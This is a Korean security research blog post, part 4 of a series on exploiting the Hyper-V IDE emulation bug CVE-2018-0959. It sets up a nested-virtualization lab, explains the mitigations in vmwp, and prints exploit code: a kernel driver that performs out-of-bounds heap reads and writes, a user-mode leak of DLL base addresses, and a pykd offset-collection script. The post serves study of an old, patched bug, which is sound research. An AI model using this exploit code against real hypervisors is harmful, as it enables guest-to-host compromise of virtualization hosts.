지난 파트 보러가기
[[Research] NewJeans’ Hyper-V Part 1 - Hyper-V Architecture](https://hackyboiz.github.io/2023/09/30/pwndorei/newjeans-hyper-v-pt1/)  
[[Research] NewJeans’ Hyper-V Part 2 - CVE-2018-0959 Analysis(1)](https://hackyboiz.github.io/2023/10/08/pwndorei/newjeans-hyper-v-pt2/)  
[[Research] NewJeans’ Hyper-V Part 3 - CVE-2018-0959 Analysis(2)](https://hackyboiz.github.io/2023/10/15/pwndorei/newjeans-hyper-v-pt3/)
**[Research] NewJeans' Hyper-V Part 4 - CVE-2018-0959 Exploit(1) (Here)**

안녕하세요 또 돌아온 pwndorei입니다. 파트 4를 기점으로 이 시리즈를 시작한 지가 벌써 한 달이나 되었습니다... 그리고 마침내 익스플로잇까지 왔습니다! 
지난 파트에서 대략적인 익스플로잇 방법을 알아봤었죠? 이번 파트 4에서는 vmwp에 적용된 미티게이션들과 OOB Read로 타겟 힙에서 DLL 베이스 주소 등 필요한 정보를 유출하는 법을 알아보겠습니다!
그 전에 익스플로잇을 수행할 환경부터 세팅해보시죠!

# 환경 세팅
[여기](https://archive.org/details/Win10_1709_English_x64)에서 Windows 10 Version 1709를 다운로드할 수 있습니다. 빌드 버전은 16299.15이고 CVE-2018-0959 취약점이 발생하는 버전입니다! 그래도 반드시 윈도우 업데이트는 비활성화하셔야 합니다!! 그렇지 않으면 자동 업데이트 때문에 취약점이 패치된 버전으로 업그레이드되어 버립니다 ㅋㅋㅋ
취약한 버전은 구했는데 이걸 여러분의 소중한 컴퓨터에 바로 깔아버릴 순 없겠죠? 따라서 중첩 가상화라는 것을 할 겁니다. 

## 중첩 가상화


> 출처:[마이크로소프트](https://msrc.microsoft.com/blog/2018/12/first-steps-in-hyper-v-research/)

중첩 가상화를 한마디로 설명하자면 가상머신 안의 가상머신이라고 할 수 있습니다. 따라서 위 그림처럼 하이퍼바이저도 두 개가 있고 하드웨어와 가까운 순으로 Level 0, 1 하이퍼바이저로 구분할 수 있습니다. 파티션들도 구분해서 Level 0의 루트 파티션을 L0, Level 1의 루트 파티션을 L1, Level 1의 자식 파티션을 L2라고 부르겠습니다.
위 그림에서는 Hyper-V 가상머신 안에서 Hyper-V를 활성화하여 또다른 가상머신을 구동하고 있지만 Level 0(L0)는 굳이 Hyper-V가 아니어도 괜찮습니다. 하지만 Hyper-V 신봉자인 저는 L0도 Hyper-V를 사용한 세팅으로 말씀드리겠습니다....

가장 먼저 Windows 10 Version 1709를 사용하는 L1을 생성해주고 ~~반드시 자동 업데이트를 끈 다음~~ 이 안에서 Hyper-V를 활성화할 필요가 있습니다. Hyper-V에서 중첩 가상화를 할 때는 `Set-VMProcessor -VMName <VMName> -ExposeVirtualizationExtensions $true`라는 파웨셀 커맨드를 통해 L0 하이퍼바이저가 가상화 익스텐션을 노출시킬 필요가 있습니다. 이는 프로세서 제조사에 따라  Intel VT-x나 AMD-V라고 부르는 기능을 필요로 하기 때문에 자신의 프로세서가 이러한 기능을 제공하는지 꼭 확인해주세요!
제가 생성한 L1의 이름이 CVE-2018-0959여서 아래의 커맨드를 실행해줬습니다. 가상머신이 꺼진 상태에서 실행해야 정상적으로 작업이 완료됩니다.
`Set-VMProcessor -VMName CVE-2018-0959 -ExposeVirtualizationExtensions $true`

그 다음 시작 메뉴에서 "Turn Windows features on or off"를 검색해서 연 다음 Hyper-V를 체크하고 확인을 눌러 L1에서 Hyper-V를 활성화 해주세요!

이후 재부팅과 함께 작업이 완료됩니다.
이제 활성화된 Hyper-V에서 L2를 만들어 봅시다! 사용한 OS는 Windows 10 22H2입니다. L2에서 사용할 OS는 아무거나 상관 없지만 익스플로잇 코드를 Windows를 기준으로 만들었기 때문에 제가 작성한 익스플로잇 코드를 사용해보시려면  Windows로 해주시면 될 것 같습니다.

아래는 세팅이 완료된 모습입니다!


~~Windows가 이중이니까 이중창문인가? 엌 ㅋㅋㅋㅋㅋ~~

# Mitigations
환경 세팅은 이 정도만 해놓고 이제 vmwp에 적용된 미티게이션들을 알아봅시다!

## ACG(Arbitrary Code Guard)
ACG는 이름을 직역하자면 임의 코드 가드입니다. 이름처럼 프로세스의 바이너리(.exe)나 프로세스가 로드한 dll의 실행 가능한 메모리 외에 `VirtualProtect`나 `VirtualAlloc` 등으로 메모리를 실행할 수 있게 바꾸거나 실행 가능한 메모리를 추가로 생성하는 것을 불가능하게 만듭니다. 따라서 vmwp에서는 `VirtualProtect`나 `VirtualAlloc` 이후 셸코드를 실행하는 익스플로잇은 불가능합니다.

## CIG(Code Integrity Guard)
vmwp는 CIG가 활성화되어 있어 마이크로소프트에서 인증한 바이너리 파일만 로드할 수 있습니다. 원래는 드라이버 인증에 사용되는 기술이었으나 유저모드 프로세스에도 적용되어 마이크로소프트에서 인증하거나 마이크로소프트 스토어에서 인증한 dll만 로드할 수 있습니다.

## No Child Process
vmwp는 실행 정책에 의해 `CreateProcess` 등의 함수로 자식 프로세스를 생성하는 것이 불가능합니다. ~~보안을 위해 프로세스를 중성화하다니...~~ 따라서 익스플로잇으로 계산기를 띄우거나 cmd를 띄우는 것을 할 수 없습니다 ㅠㅠ....

## CFG(Control Flow Guard)
오늘 알아볼 미티게이션의 끝판왕인 CFG입니다. CFG란 CFI(Control Flow Integrity)를 마이크로소프트가 구현한 것이고 CFI란 이름처럼 Control Flow(제어 흐름)을 보호하는 기법입니다.
제어 흐름은 `call`이나 `ret` 명령에 의해 바뀌곤 하는데 CFG는 이중에서도 간접 `call`과 관련이 있습니다. 함수 포인터를 사용해 호출하거나 vftable을 참조한 호출이 발생할 때 `call qword ptr[rax]`처럼 다른 메모리 주소에 저장된 데이터를 참조하여 해당 주소로 제어 흐름을 옮기는데 저장된 데이터가 오염되었다면 의도와는 다른 동작을 하겠죠? CFG는 이를 탐지하고 막기 위해 컴파일 타임에 간접 호출이 일어나는 부분에 호출될 주소를 검증하는 루틴을 추가합니다. 또한 컴파일 타임에 데이터 섹션에 `__guard_fids_table`, `__guard_check_icall_fptr`이 추가됩니다.  
`__guard_fids_table`에는 간접 호출될 수 있는 유효한 함수들의 RVA를 저장하고 `__guard_check_icall_fptr`은 프로그램이나 라이브러리가 로드되면 CFG를 검사하는 함수인 `ntdll!LdrpValidateUserCallTarget`을 가리키게 됩니다. 아까 말한 검증하는 루틴이 간접 호출될 함수의 주소를 인자로 `__guard_check_icall_fptr`을 호출하는 것이죠. 
`ntdll!LdrpValidateUserCallTarget`에서는 `__guard_fids_table`을 기반으로 만들어진 CFG 비트맵을 통해 간접 호출될 함수의 유효성을 검사하고 유효하지 않은 함수일 경우 프로세스를 강제 종료시킵니다. CFG 비트맵에 대해서는... 너무 길어질 것 같으니 생략하겠습니다...

# Exploit Codes
지난 파트에서 간단하게 익스플로잇 과정과 타겟 힙에서 데이터를 읽고 쓰는 방법을 알아봤었죠? 이 과정은 모두 `in`, `out` 명령을 사용하기 때문에 L2에서 사용할 커널 드라이버를 만들어야 합니다! 분량 상 커널 드라이버를 만드는 법까진 다 알려드릴 수 없을 것 같네요 ㅠㅠ

## ExploitDriver
익스플로잇을 위한 커널 드라이버에 필요한 기능은 아래의 세 가지 입니다.

1. `MmMapIoSpace`로 VRAM 버퍼에 패턴 데이터를 쓴다.
2. OOB Read로 타겟 힙의 데이터를 읽는다.
3. OOB Write로 타겟 힙에 데이터(페이로드)를 쓴다.

이렇게 보니 엄청 간단해 보이네요! 하지만 실상은 그렇지 않습니다... 저의 [코드](https://github.com/pwndorei/CVE-2018-0959/blob/main/ExploitDriver/Driver.c)를 보면서 어떻게 구현했는지 살펴보시죠!
`DispatchRoutine`을 보시면 아래와 같이 위에서 말한 세 가지 기능을 수행하기 위한 함수를 IOCTL 코드에 따라 호출합니다
```C
NTSTATUS DispatchRoutine(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
    PIO_STACK_LOCATION  irpSp;
    NTSTATUS            ntStatus = STATUS_UNSUCCESSFUL;
    VRAM_DATA data;


    UNREFERENCED_PARAMETER(DeviceObject);
    irpSp = IoGetCurrentIrpStackLocation(Irp);

    switch (irpSp->Parameters.DeviceIoControl.IoControlCode) {
    case TARGET_HEAP_READ://LeakData
        LeakData(*(ReadInfo*)Irp->AssociatedIrp.SystemBuffer);
        break;

    case TARGET_HEAP_WRITE:
        CorruptData(*(WriteInfo*)Irp->AssociatedIrp.SystemBuffer);
        break;

    case VRAM_WRITE://Spary Pattern to VRAM Buffer
        data = *(VRAM_DATA*)Irp->AssociatedIrp.SystemBuffer;
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "Write Physical: %p %p %llu\n", data.physAddr.QuadPart, data.buffer, data.len);
        if (writePhysical(data.physAddr, data.buffer, data.len)) {
            ntStatus = STATUS_SUCCESS;
        }
        break;

    default:
        ntStatus = STATUS_INVALID_DEVICE_REQUEST;
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "Unrecognized IOCTL\n");

    }

    Irp->IoStatus.Status = ntStatus;
    IoCompleteRequest(Irp, 0);

    return ntStatus;
}
```

### VRAM Write

```C
int writePhysical(PHYSICAL_ADDRESS physAddr, PCHAR data, SIZE_T len) {
    CHAR* BaseAddress;
    //DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "%p %llu %llu\n", physAddr, len, data);
    if (!data) return 0;
    BaseAddress = MmMapIoSpace(physAddr, len, 0);

    if (BaseAddress) {
		memcpy(BaseAddress, data, len);
        MmUnmapIoSpace(BaseAddress,len);

        return 1;
    }
    return 0;
}
```
`MmMapIoSpace`로 물리 메모리에 매핑된 가상 메모리 주소를 얻고 여기에 유저 모드 프로세스에서 전달한 패턴 데이터를 씁니다. 이건 그래도 조금 간단해 보이죠?

### JumptoTargetHeap
OOB Read/Write를 하려면 타겟 힙까지 `DriveStateBufferOffset`을 증가시켜야겠죠?
아래는 버그를 트리거하여 `DriveStateBufferOffset`을 증가시키는 함수입니다.

```C
int JumptoTargetHeap() {
    DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Initialize IDE_DRIVE_STATE\n");
    __outbyte(0x1f6, 0xe0);
    __outbyte(0x1f5, 0x2);
    __outbyte(0x1f4, 0xf8);
    __outbyte(0x1f3, 0x10);
    __outbyte(0x1f2, 0x77);
    __outbyte(0x1f7, 0x30);

    for (int i = 0; i < 0x200; i += 4) {
        __outdword(0x1f0, 0x41414141);
    }

    //Increase DriveStateBufferOffset 8MB
    DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Increase DriveStateBufferOffset\n");
    for (int i = 0; i < 0x800000; i+=0x200) {
		__outbyte(0x1f7, 0x30);
    }
	int iter = 0;
    UCHAR data = 0;
    for (int i = 0; i < 20; i++) {
        data = __inbyte(0x1f0);
		DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Data Read from 0x1f0: 0x%x\n", data);
        if (data < 'H') {//Increase 1MB
            iter = 0x100000;//1MB
        }
        else if (data < 'O') {//increase 128KB
            iter = 0x20000;
        }
        else if (data < 'V') {//16KB
            iter = 0x4000;
        }
        else {// data == 'V', Jump to TargetHeap
            iter = 0x5e3e00;//Offset Between VRAM Buffer's end & Target Heap's start address
            break;
        }
        for (int j = 0; j < iter; j += 0x200) {
            __outbyte(0x1f7, 0x30);
        }
    }

    if (data < 'V') {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[!] Increase DriveStateBufferOffset Failed\n");
        return 0;
    }
    DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Jump to Target Heap\n");

	for (int j = 0; j < iter; j += 0x200) {
		__outbyte(0x1f7, 0x30);
	}
    

    return 1;
}
```

읽은 패턴의 데이터에 따라 증가하는 값을 다르게 했고 데이터가 `V`일 때 증가시킬 오프셋은 VRAM 버퍼의 끝과 타겟 힙 주소의 시작의 차이로 설정하면 됩니다. 아까 세팅한 환경은 제가 코드를 작성할 때와 다르기 때문에 VMMap으로 메모리 레이아웃을 다시 분석하고 다른 값으로 설정해주면 됩니다!

### LeakData
OOB Read로 특정 범위의 데이터를 읽어 유저 공간의 버퍼에 씁니다.
```C
void LeakData(ReadInfo info) {
    int from = info.from, to = info.to, cursor = from;
    int* buffer = info.buffer;

    while (!JumptoTargetHeap()) DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Retry\n");
	for (int i = 0; i < from; i += 0x200) __outbyte(0x1f7, 0x30);

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Read Data\n");

    while (cursor < to) {
        for (int i = 0; i < 0x200; i += 4) {
            *buffer = __indword(0x1f0);
            buffer++;
        }
        __outbyte(0x1f7, 0x30);
        cursor += 0x200;
    }
}
```

0x200 바이트 만큼 읽었을 때는 쓸 때와 다르게 오프셋이 증가하지 않기 때문에 `__outbyte(0x1f7, 0x30)`을 통해 오프셋을 따로 증가 시켜주었습니다. 읽거나 쓸 범위와 버퍼의 주소를 저장한 구조체는 아래와 같습니다
```C
typedef struct _Info {
	void* buffer;
	int from;
	int to;
}WriteInfo, ReadInfo;
```

### CorruptData
OOB Write로 타겟 힙에 데이터를 쓰는 함수입니다. 페이로드를 힙에 삽입하기 위해 사용하고 아래와 같이 구현했습니다
```C
void CorruptData(WriteInfo info) {
    DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Overwrite Data\n");
    int from = info.from, to = info.to, cursor = from;
    int* buffer = info.buffer;

    while (cursor < to) {
        while (!JumptoTargetHeap());
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Write to Offset %x\n", cursor);
        for (int i = 0; i < cursor; i += 0x200) __outbyte(0x1f7, 0x30);
        for (int i = 0; i < 0x200; i += 4) {
            __outdword(0x1f0, *buffer);
            buffer++;
        }
        cursor += 0x200;
    }
}
```
0x200바이트만큼 쓰면 오프셋이 0으로 줄어들어서 0x200 바이트를 쓸 때마다 다시 오프셋을 증가시킬 필요가 있습니다...

## Exploit

커널 드라이버를 통해 OOB Read/Write를 할 수 있게 되었으니 이제 이 드라이버를 사용해서 실질적으로 익스플로잇을 수행하는 프로그램을 작성합시다. 전체 소스코드는 [여기](https://github.com/pwndorei/CVE-2018-0959/blob/main/Exploit/Exploit.c)에서 확인하실 수 있고 OOB Read로 읽은 타겟 힙 데이터에서 DLL 베이스 주소를 계산하고 페이로드를 OOB Write로 쓰는 등의 기능을 합니다. 이번 파트에서는 OOB Read로 데이터를 유출하는 부분의 구현만 살펴보시죠!

```C
int main() {
	HANDLE driver, hFile, hFileMap;

	__int64* data = NULL;
	hFile = CreateFileW(L".\\TargetHeap.dat", GENERIC_READ | GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	if (hFile == INVALID_HANDLE_VALUE) {
		printf("CreateFile Failed(%d)\n", GetLastError());
		return -1;
	}

	hFileMap = CreateFileMappingW(hFile, NULL, PAGE_READWRITE, 0, 0x400000, NULL);

	if (hFileMap == INVALID_HANDLE_VALUE) {
		CloseHandle(hFile);
		printf("CreateFileMapping Failed(%d)\n", GetLastError());
		return -1;
	}

	data = MapViewOfFile(hFileMap, FILE_MAP_WRITE, 0, 0, 0);

	if (data == NULL) {
		CloseHandle(hFileMap);
		CloseHandle(hFile);
		printf("MapViewOfFile Failed(%d)\n", GetLastError());
		return -1;
	}

	driver = CreateFileW(DEVICE_NAME, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	if (driver == INVALID_HANDLE_VALUE) return 0;
	printf("[+] Spray Pattern on VRAM Buffer\n");

	sprayPattern(driver);

	printf("[+] Leak Data from Target Heap\n");

	ReadInfo LeakDll = { 0, }, FindVdl = { 0, };

	LeakDll.buffer = data;
	LeakDll.from = 0;
	LeakDll.to = 0x100000;

	int jumpOffset = 0, readRange = 0;
	printf("Jump Offset(KB) >");
	scanf_s("%d", &jumpOffset);
	printf("Read Range(KB) >");
	scanf_s("%d", &readRange);
	FindVdl.from = jumpOffset*1024;//1408KB
	FindVdl.to = FindVdl.from + readRange * 1024;
	FindVdl.buffer = (char*)LeakDll.buffer + FindVdl.from;

	printf("[+] Read 1\n");
	DeviceIoControl(driver, LEAK_IOCTL, &LeakDll, sizeof(ReadInfo), NULL, 0, NULL, NULL);
	printf("[+] Read 2\n");
	DeviceIoControl(driver, LEAK_IOCTL, &FindVdl, sizeof(ReadInfo), NULL, 0, NULL, NULL);

	printf("[+] Find DLL address from Leaked Data\n");

	__int64 combase = 0, RPCRT4 = 0, KernelBase = 0, VideoDirtListenerVtable = 0, VideoDirtListener = 0, * VideoDirtListenerOffset = NULL;
	for (__int64* qword = LeakDll.buffer; qword < (__int64*)LeakDll.buffer + (LeakDll.to-LeakDll.from)/8; qword++) {
		unsigned short* word = qword;

		if (*qword > 0x7ff000000000 && *qword < 0x7fffffffffff) {//probably dll address value
			for (int i = 0; i < COMBASE_LEN && combase == 0; i++) {//Compare with Combase Offsets
				unsigned short diff = (unsigned short)combase_offset[i];
				if (diff == *word) combase = *qword - combase_offset[i];
			}

			for (int i = 0; i < RPCRT4_LEN && RPCRT4 == 0; i++) {//Compare with Combase Offsets
				unsigned short diff = (unsigned short)rpcrt4_offset[i];
				if (diff == *word) RPCRT4 = *qword - rpcrt4_offset[i];
			}

			for (int i = 0; i < KERNELBASE_LEN && KernelBase == 0; i++) {
				unsigned short diff = (unsigned short)kernelbase_offset[i];
				if (diff == *word) KernelBase = *qword - kernelbase_offset[i];
			}
		}
		if (combase && RPCRT4 && KernelBase) break;// && VideoDirtListener
	}
	printf("[+] DLL Address\n");
	printf("combase.dll: %llx\nRPCRT4.dll: %llx\nKernelBase.dll: %llx\n", combase, RPCRT4, KernelBase);
```

`DeviceIoControl` 함수로 커널 드라이버가 VRAM 버퍼에 데이터를 쓰고 OOB Read로 타겟 힙에서 데이터를 읽어서 `LeakDll`의 버퍼에 써줍니다. `combase_offset`, `rpcrt4_offset`, `kernelbase_offset`은 타겟 힙의 첫 1MB 정도의 데이터에서 찾은 dll의 주소값들의 오프셋을 저장해둔 배열입니다. 타겟 힙의 데이터 중에서 DLL 주소값으로 보이는 것들의 하위 2바이트가 오프셋 중 하나와 일치하면 오프셋을 주소값에서 빼서 특정 DLL의 주소를 알아내는 방식이죠! rebase되어도 하위 2바이트의 오프셋은 바뀌지 않기 때문에 이러한 방법이 유효했습니다.
그럼 이 오프셋 정보들은 어떻게 수집했을까요? 메모리에서 값을 하나 하나 정성스럽게 찾은 건 아니고 windbg 익스텐션인 pykd를 사용한 스크립트를 작성해서 사용했습니다 ㅋㅋㅋㅋ

```python
# FindDll.py
import pykd, argparse

parser = argparse.ArgumentParser()

parser.add_argument("--addr", type=str) #in hex
parser.add_argument("--len", type=str) #in hex

args = parser.parse_args()

heap_addr = int(args.addr, 16)
len = int(args.len, 16) // 8

combase_offsets = []
RPCRT4_offsets = []
kernelbase_offsets = []
combase = pykd.module("combase")
rpcrt4 = pykd.module("RPCRT4")
kernelbase = pykd.module("KernelBase")

data = pykd.loadQWords(heap_addr, len)

buf = ""

for i in data:
    if combase.end() > i > combase.begin() and (i - combase.begin()) != 0:
        combase_offsets.append(i - combase.begin())
    elif rpcrt4.end() > i > rpcrt4.begin() and (i - rpcrt4.begin()) != 0:
        RPCRT4_offsets.append(i - rpcrt4.begin())
    elif kernelbase.end() > i > kernelbase.begin() and (i - kernelbase.begin()) != 0:
        kernelbase_offsets.append(i - kernelbase.begin())


#print(f"#define COMBASE_LEN {len(combase_offsets)}")
#print(f"#define RPCRT4_LEN {len(RPCRT4_offsets)}")
#print(f"#define KERNELBASE_LEN {len(kernelbase_offsets)}")

print("const unsigned int combase_offset[] = {",end='')
for i in list(dict.fromkeys(combase_offsets)):
    print(hex(i), end=", ")
print("};")

print("const unsigned int rpcrt4_offset[] = {", end='')
for i in list(dict.fromkeys(RPCRT4_offsets)):
    print(hex(i), end=", ")
print("};")

print("const unsigned int kernelbase_offset[] = {", end='')
for i in list(dict.fromkeys(kernelbase_offsets)):
    print(hex(i), end=", ")
print("};")

```

그럼 위의 스크립트를 사용해서 dll 오프셋 정보를 수집해보겠습니다!

### Leak DLL Base
먼저 VMMap으로 vmwp의 메모리 레이아웃을 분석해봅시다.  VMMap은 마이크로소프트의 메모리 분석 유틸리티로 [여기](https://learn.microsoft.com/ko-kr/sysinternals/downloads/vmmap)에서 다운로드하실 수 있습니다.


먼저 vmwp는 64비트이기 때문에 vmmap64를 관리자 권한으로 실행해줍시다. L2를 킨 다음에 vmmap에서 단축기 `CTRL+P`로 분석할 프로세스를 선택하는 창을 띄우고 vmwp를 선택하면 아래와 같이 메모리를 볼 수 있습니다.
